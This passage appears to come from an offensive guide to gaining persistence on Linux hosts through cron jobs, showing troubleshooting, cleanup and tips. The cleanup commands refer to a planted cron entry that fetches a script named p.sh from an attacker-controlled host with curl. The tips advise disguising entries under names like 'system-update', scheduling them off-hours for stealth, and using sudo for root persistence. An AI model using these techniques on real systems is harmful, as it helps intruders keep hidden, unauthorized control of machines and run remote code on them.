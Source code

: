 7) Troubleshooting and verification
```
# Force a quick test job to validate environment
( crontab -l 2>/dev/null; \
  echo '* * * * * /bin/date >> /tmp/cron_tick.txt' \
) | crontab -

# Logs (Debian/Ubuntu)
sudo tail -f /var/log/syslog | grep -i CRON

# Logs (RHEL/CentOS)
sudo tail -f /var/log/cron

# Confirm PATH/SHELL are set correctly at top of the cron file.
```

8) Cleanup (remove artifacts when done)
```
# User crontab wipe (careful: removes all entries)
crontab -r

# Or remove single-line by rewriting
crontab -l | grep -v 'curl -fsSL http://'"$LHOST"'/p.sh' | crontab -

# System-wide
sudo rm -f /etc/cron.d/system-update
sudo rm -f /etc/cron.hourly/system-update
sudo sed -i '/system-update/d' /etc/crontab
```

Reference: Cron syntax
- User crontab format: m h dom mon dow command
- System crontab (/etc/crontab, /etc/cron.d/*): m h dom mon dow user command
- Special strings: @reboot, @hourly, @daily, @weekly, @monthly, @yearly/@annually

Example:
```
# /etc/crontab
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
0 * * * * root /usr/local/bin/backup.sh
```

## Practical tips
- Always use absolute paths in cron commands; cron has a minimal environment.
- Prepend PATH and SHELL at the top of crontab files for reliability.
- Suppress output with >/dev/null 2>&1 to reduce noise and emails (or set MAILTO='' at top).
- For cron.* directories, obey run-parts naming and executable bit; avoid dots in filenames.
- Test with a benign job first (touch/date) before deploying payloads.
- Use @reboot with a small sleep to avoid race conditions at boot.
- Distro differences:
  - Service: cron (Debian/Ubuntu) vs crond (RHEL/CentOS)
  - Logs: /var/log/syslog (grep CRON) vs /var/log/cron
  - User crontab spools: /var/spool/cron/crontabs (Debian) vs /var/spool/cron (RHEL)
- File permissions: /etc/cron.d files must be owned by root and not group/world-writable; otherwise ignored.
- Stealth: name entries like “system-update” or “package-health”; schedule less frequently; off-hour execution.
- If allowed by sudo, crontab -u root -e can add root persistence without editing files directly.
- To watch scheduled executions live without logs, use pspy (no root needed) on assessments.
